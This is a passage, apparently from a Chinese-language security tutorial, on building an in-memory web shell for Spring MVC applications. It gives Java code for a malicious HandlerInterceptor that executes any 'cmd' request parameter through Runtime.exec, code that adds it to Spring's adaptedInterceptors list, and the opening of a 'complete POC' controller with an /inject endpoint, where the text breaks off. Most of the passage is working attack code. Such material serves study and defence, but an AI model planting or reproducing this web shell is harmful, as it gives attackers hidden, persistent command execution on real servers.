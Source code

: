 ```java
package com.shell.interceptor;
 
import org.springframework.web.servlet.HandlerInterceptor;
 
import javax.servlet.http.HttpServletRequest;
import javax.servlet.http.HttpServletResponse;
import java.io.IOException;
 
public class Shell_Interceptor implements HandlerInterceptor {
 
    @Override
    public boolean preHandle(HttpServletRequest request, HttpServletResponse response, Object handler) throws Exception {
        String cmd = request.getParameter("cmd");
        if (cmd != null) {
            try {
                Runtime.getRuntime().exec(cmd);
            } catch (IOException e) {
                e.printStackTrace();
            } catch (NullPointerException n) {
                n.printStackTrace();
            }
            return true;
        }
        return false;
    }
}
```

### 5.4.7、动态注册Interceptor

我们知道`Spring`是通过遍历`adaptedInterceptors`属性值来执行`Interceptor`的，因此最后我们只需要将恶意`Interceptor`加入到 `adaptedInterceptors` 属性值中就可以了。

```java
//将恶意Interceptor添加入adaptedInterceptors
Shell_Interceptor shell_interceptor = new Shell_Interceptor();
adaptedInterceptors.add(shell_interceptor);
```

### 5.4.8、完整POC

```java
package com.shell.controller;
 
import org.springframework.stereotype.Controller;
import org.springframework.web.bind.annotation.RequestMapping;
import org.springframework.web.bind.annotation.ResponseBody;
import org.springframework.web.context.WebApplicationContext;
import org.springframework.web.context.request.RequestContextHolder;
import org.springframework.web.context.request.ServletRequestAttributes;
import org.springframework.web.servlet.HandlerInterceptor;
import org.springframework.web.servlet.mvc.method.annotation.RequestMappingHandlerMapping;
import org.springframework.web.servlet.support.RequestContextUtils;
 
import javax.servlet.http.HttpServletRequest;
import javax.servlet.http.HttpServletResponse;
import java.io.IOException;
 
@Controller
public class Inject_Shell_Interceptor_Controller {
 
    @ResponseBody
    @RequestMapping("/inject")
```